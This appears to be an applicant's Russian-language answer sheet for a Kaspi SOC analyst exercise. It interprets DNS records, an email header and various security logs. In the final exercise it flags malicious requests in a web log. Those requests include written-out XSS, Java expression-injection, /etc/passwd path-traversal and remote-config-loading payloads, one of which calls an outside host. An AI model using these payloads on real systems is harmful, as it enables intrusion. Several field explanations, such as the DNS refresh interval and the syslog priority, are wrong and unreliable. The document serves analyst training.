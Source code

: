 # kaspi-SOC2.0-answers
Ex.1

Строка 1:
	ХОСТ: "kaspi.kz" - это доменное имя;
	КЛАСС: "IN" - означает что это запись интернета;
	ТИП: "A" - означает что эта запись содержит IP-адрес;
СОДЕРЖАНИЕ ЗАПИСИ: "ip = 194.187.245.10" - IP-адрес сервера kaspi.kz;

Строка 2:
ТИП: "NS" -означает что запись связана с именами DNS-серверов;
	target = ns.bc.kz - имя DNS-сервера, связанного с доменом;

Строка 3, 4, 5:
	target = ns2.kaspi.kz - имя DNS-сервера, связанного с доменом;

Строка 6:
	ТИП: "SOA" - запись хранит данные о главном DNS-сервере для домена и его параметры, например
	mname = ns.bc.kz - имя главного DNS-сервера для домена;
	rname = telecomdev.kaspi.kz - eМail владельца зоны;
	serial = 2018122633 - номер версии зоны;
	refresh = 600 - проверяет наличие обновлений в зоне каждые 60 секунд;
	retry = 150 - повторяет попытку обновления при ошибке каждые 150 секунд;
	expire = 28800 - зона устаревшая, если главный DNS-сервер получил обновление после 28800 секунд;
	minimum-ttl = 300 - при не заданном TTL минимальное время жизни записей зоны 300 секунд;

Строка 7, 8:
	ТИП: "MX" - запись хранит данные о почтовом сервере
	pri = 10 - приоритетность этой MX-записи в списке других MX-записей. Чем ниже число, тем выше приоритет данного сервера.
	target = bmss-01d.kaspi.kz - имя почтового сервера

Строка 9, 10, 11, 12, 13:
	ТИП: "TXT" - запись содержит текст.
	txt = google-site-verification=x-9S3SCWGLPV4449a3riJHAdsBWLD44A8YGrmESd0gA - содержание записи

Строка 14:
	ТИП: "PTR" - запись для обратного связывания IP-адреса с доменным именем.
	10.245.187.194.in-addr.arpa - это имя хоста, обозначает обратное доменное имя - IP-адресу 194.187.245.10.
	kaspi.kz - доменное имя, связанное с указанным IP-адресом.




Ex 2:
	Этот email header содержит записи о получении. Запись хранит данные об отправителе, получателе и использованном протоколе.

	Первый блок указывает, что письмо было отправлено с хоста exch3.localhost (IP-адрес 10.1.1.1) с помощью Microsoft SMTP Server, используя TLS 1.2 с шифрованием TLS_RSA_WITH_AES_256_GCM_SHA384.

	Второй блок указывает, что письмо было отправлено с того же хоста exch3.localhost (IP-адрес 10.1.1.1), но было получено на другом хосте, exch2.localhost (IP-адрес 10.1.1.2), используя тот же самый протокол SMTP Server с тем же шифрованием TLS_RSA_WITH_AES_256_GCM_SHA384.

	Третий блок указывает, что письмо было отправлено с хоста nodename.kaspi.kz (IP-адрес 10.1.1.2), получено на хосте exch2.localhost (IP-адрес 10.1.1.2), с использованием протокола SMTP Server и шифрования TLS_RSA_WITH_AES_256_CBC_SHA256.

	Запись Authentication-Results указывает, что отправитель, elndjeni@visa.com, прошел проверку SPF (Sender Policy Framework), DKIM (DomainKeys Identified Mail) и DMARC (Domain-based Message Authentication, Reporting and Conformance).
Запись ISDR содержит зашифрованные данные, которые могут использоваться для проверки целостности и подлинности письма.

	Запись IPHdr содержит некоторые дополнительные данные в виде строки, которая была разделена на несколько частей из-за ограничений длины строки. Это могут быть дополнительные заголовки, такие как заголовок передачи или заголовок протокола.

Ex 3:
	Система обнаружила потенциальную угрозу в виде вредоносного ПО - Win.Trojan.Banker.
	Система отследила и зарегистрировала исходящее подключение с IP-адресом и портом, используемым для передачи вредоносного кода.

	Безопасность предприятия должны обнаружить и удалить вредоносного ПО, провести анализ вредоносной активности, а также принимать меры для улучшения защиты сети и предотвращения подобных атак в будущем.


Ex 4:
	Лог-запись NGINX содержит
	Имя пользователя: отсутствует.
	IP адрес источника: 10.1.2.3
	IP адрес назначения: 109.166.59.44
	Порт источника: отсутствует.
	Порт назначения: отсутствует.
	Событие: "GET /shop-ext/suggestions/?i=productDetails&m=true&t=IP&pi=14701657&u=3729495
HTTP/1.1"
	Статус: 200
	Реферер: "https://kaspi.kz/shop/p/gerbor-vusher-reg1w2d2s-13-9-l-p-nimfea-al-ba-belyi-gljanets-14701657/?c=551010000"
	Браузер: "Mozilla/5.0 (Linux; Android 9; Redmi Note 7 Build/PKQ1.180904.001; wv)
	AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/78.0.3904.96 Mobile Safari/537.36"
	Время запроса: 0.009
	Время ответа: 0.008
	Порт назначения с указанием протокола: 10.2.3.4:9001

Строка журнала почтового сервера.
	<22> - приоритет журнала событий
	Dec 04 12:22:00 - дата и время события.
	Mail_Logs - имя журнала.
	Info - уровень журнала.
	New SMTP ICID 11444342 - идентификатор SMTP соединения
	interface MAIL (172.1.2.3) - интерфейс, через который было создано соединение SMTP.
	address 62.141.46.147 - IP-адрес удаленного SMTP-сервера.
	reverse dns host s2.kipersam.art - обратное DNS-имя удаленного SMTP-сервера.
	verified yes - флаг, показывающий, была ли проверка обратного DNS-имени успешной (в данном случае - да).


#3 Proxy Server
	<30> - приоритет журнала событий
	Dec 4 12:21:59 - дата и время события.
	mwg-prx1 - имя сервера.
	mwg - имя приложения, которое создало лог.
	LEEF:1.0|PRXName|Web Gateway|7.8.2.11.0|0|devTime=1575440519000 - это формат лога, который используется для отправки логов в системы управления событиями. В этом случае, это формат LEEF версии 1.0, который содержит информацию о имени прокси-сервера, версии ПО и времени устройства.
	src=10.7.8.9 - это исходный IP-адрес клиента.
	usrName=petrov_123 - имя пользователя, которое было использовано для аутентификации.
	userAgent=Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.87 Safari/537.36 - это информация о браузере, который был использован клиентом.
	httpStatus=200 - это код состояния HTTP-запроса, который был получен от сервера.
	dst=149.154.167.99 - это IP-адрес сервера, к которому происходило обращение.
	urlCategories=Instant Messaging - это категория URL-адреса, которая была обнаружена на сайте.
	blockReason= - это причина блокировки, если URL-адрес был заблокирован.
	url=https://venus.web.telegram.org/apiw1 - это URL-адрес, который был запрошен клиентом. В этом случае, это API-запрос к Telegram.

#3 ASA

Этот лог был сгенерирован устройством ASA (Adaptive Security Appliance), который является устройством сетевой безопасности, разработанным компанией Cisco. В этом логе указаны следующие данные:
	<166> - номер уровня срочности (severity level), который указывает на критичность события (166 соответствует уровню "critical").
	Dec 04 2019 12:21:59 - дата и время, когда произошло событие.
	ASA1234 - идентификатор устройства.
	Deny TCP (no connection) - действие, которое было выполнено ASA в результате события. В данном случае, ASA отклонил TCP-пакет, так как связь не была установлена.
	from 90.143.47.21/42968 - источник пакета, указывающий на IP-адрес и номер порта отправителя.
	to 194.187.247.147/443 - назначение пакета, указывающий на IP-адрес и номер порта получателя.
	flags ACK - флаги, указывающие на тип пакета. ACK - это подтверждение получения предыдущего пакета.
	Таким образом, этот лог сообщает о том, что ASA отклонил TCP-пакет, поскольку не было установлено соединение между отправителем и получателем.


#4 Mail Log

Эти логи связаны с почтовым сервером и содержат информацию об ICID (идентификаторе контекста сообщения), а также о соответствующих проверках безопасности и списках.
Первый лог сообщает, что сообщение с ICID 11444342 было принято и соответствовало списку SUSPECTLIST с совпадением SBRS (-3.0:-1.0) и страной отправления Германия.
Второй лог сообщает, что сообщение с ICID 11444341 было отклонено из-за соответствия списку BLACKLIST с совпадением SBRS (-10.0:-3.0) и страной отправления Монголия.


#5 FW
Это лог события устройства защиты (FW), который указывает, что обнаружена вредоносная активность в файле с именем "online_126657052_3.pdf". Событие было зарегистрировано на устройстве с IP-адресом 10.10.10.1 в 12:21:55 4 декабря 2019 года.
Данные о файле включают его размер (46197 байт), тип (PDF), имя и хэш-сумму (CD22437892392E03BF5375B597AA77DE6F0E5D9F26B1832339B79DA19F050BF7).
Событие также содержит информацию о соединении, в котором был обнаружен вредоносный файл, включая адрес и порт источника и назначения, а также протокол и имя службы (SMTP).
Другая информация включает политику контроля доступа, ID пользователя, имя пользователя и сведения о протоколе. Событие также указывает, что файл был помечен как вредоносный с дальнейшим отклонением (disposition=2), а также о том, что его анализ был произведен локально (localMalwareAnalysisStatus=5)


Ex 5:
Нелегитимные запросы в данном логе:
2023-02-15T08:32:00	data.kaspi.lab 443 85.117.101.213 10.2.1.12	80	GET	/market/api/v2/orders	-	200	2265	2780	0	2479	16947	HTTP/1.1	Mozilla/5.0+(Linux;+Android+7.1.2;+Redmi+4X+Build/N2G47H;+wv)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Version/4.0+Chrome/110.0.5481.63+Mobile+Safari/537.36	%3Cscript%3Ealert%28%22testbottles%22%29%3C%2Fscript%3E	kaspi.lab
 > Запрос содержит параметр запроса "%3Cscript%3Ealert%28%22testbottles%22%29%3C%2Fscript%3E", который является скриптом JavaScript, с помощью него можно внедрить js-код в НTML ip с которого отправили запрос - 85.117.101.213

2023-02-15T08:32:00	chat.kaspi.lab 443 188.246.252.144 10.17.8.228	80	POST/market/p/linea-8035154p-55-zoloto-100959802/	-	200	2265	2780	0	2479	16947	HTTP/1.1	Mozilla/5.0+(Linux;+Android+7.1.2;+Redmi+4X+Build/N2G47H;+wv)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Version/4.0+Chrome/110.0.5481.63+Mobile+Safari/537.36	lang=ru-RU&code=&query=%D0	kaspi.lab
 > Не уверен на признак уязвимости, однако запрос хранит http протокол и подозрительные параметры code=&query=% могут содержать данные

2023-02-15T08:32:00	new.kaspi.lab 443 81.91.187.59	10.2.50.20	80	POST	/bottles/dashboars/	-	200	2265	2780	0	2479	16947	HTTP/1.1	Mozilla/5.0+(Linux;+Android+9;+TECNO+CC7+Build/PPR1.180610.011;+wv)+AppleWebKit/537.36+(KHTML,+like+Gecko)+Version/4.0+Chrome/101.0.4951.41+Mobile+Safari/537.366	actionoutcome%3D%2Fpwn.xhtml%3Fpwned%3D%23%7Bexpressions.getclass%28%29.forname%28%27java.lang.runtime%27%29.getdeclaredmethods%28%29%5B0%5D%7D	kaspi.lab
 > Не уверен на признак уязвимости, однако запрос хранит “actionoutcome%3D%2Fpwn.xhtml%3Fpwned%3D%23%7Bexpressions.getclass%28%29.forname%28%27java.lang.runtime%27%29.getdeclaredmethods%28%29%5B0%5D%7D” в котором может хранится вредоносный код

2023-02-15T08:32:00	dev.kaspi.lab 443 78.109.191.117 10.2.50.21	80	POST /page/api/login/	-	200	2265	2780	0	2479	16947	HTTP/1.1	Mozilla/5.0+(Linux;+Android+12;+SM-A315F+Build/SP1A.210812.016;+wv)	view%3D..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd	kaspi.lab
 > параметре "view" указана строка, которая содержит путь до файла "/etc/passwd",

2023-02-15T08:32:00	forum.kaspi.lab 443	79.133.190.153 10.2.1.12	80	POST	/bottles/dashboardapi2/api/v1/Dashboard/getSampleRequest	-	200	2265	2780	0	2479	16947	HTTP/1.1	Mozilla/5.0+(iPhone;+CPU+iPhone+OS+13,4+like+Mac+OS+X)+AppleWebKit/605.1.15+(KHTML,+like+Gecko)+Mobile/15E148	_nfpb%3Dtrue%26_pagelabel%3Dhomepage1%26handle%3Dcom.bea.core.repackaged.springframework.context.support.classpathxmlapplicationcontext%28%22http%3A%2F%2F8.8.8.8%3A37225%22%29	kaspi.lab
 > '_nfpb%3Dtrue%26_pagelabel%3Dhomepage1%26handle%3Dcom.bea.core.repackaged.springframework.context.support.classpathxmlapplicationcontext%28%22http%3A%2F%2F8.8.8.8%3A37225%22%29’  - возможна уязвимость
